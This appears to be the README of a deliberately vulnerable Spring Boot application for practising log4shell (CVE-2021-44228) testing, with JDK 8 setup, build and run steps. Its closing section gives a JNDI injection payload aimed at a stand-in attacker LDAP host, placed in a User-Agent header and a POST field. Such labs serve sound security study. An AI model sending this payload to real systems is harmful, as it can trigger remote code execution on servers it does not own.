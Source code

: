 # ☕ ITF-log4shell-vulnapp

Spring-boot web application with log4shell(CVE-2021-44228) vulnerabilities

## Installation

```bash
# requierd JDK version 8
$ git clone https://github.com/Auddn/ITF-log4shell-vulnapp.git
$ cd ITF-log4shell-vulnapp
$ ./gradlew build
$ ./gradlew bootJar
```

If `JDK 8` is not installed in your system, follow:

```bash
$ apt-get update
$ apt-get install openjdk-8-jdk
$ vi /etc/profile
```

and add `$JAVA_HOME` in vim

```bash
$JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"
```

apply and check the `JAVA_HOME` environmental variable.

```bash
$ source /etc/environment
$ echo $JAVA_HOME
/usr/lib/jvm/java-8-openjdk-amd64
```

## Usage

This web application operates based on the Spring-Boot framework and has Tomcat built-in.

If you have successfully completed the installation process, run the application through the following process:

```bash
$ cd ITF-log4shell-vulnapp/build/libs
$ java -jar log4shellVulnapp-0.0.1-SNAPSHOT.jar
```

If you want to change a port of application, you can change a port by edit application.properties

```bash
$ cd ITF-log4shell-vulnapp/src/main/resources
$ vi application.properties
```

and add or edit port setting (default port number is 8080):

```bash
server.port = 8080
```

In order to test for log4j vulnerabilities in this application, the payload must be inserted as follows:

```bash
/GET
User-Agent: ${jndi:ldap://attack.er/path}

/POST
Content-Length: (length)

payload=${jndi:ldap://attack.er/path}
```
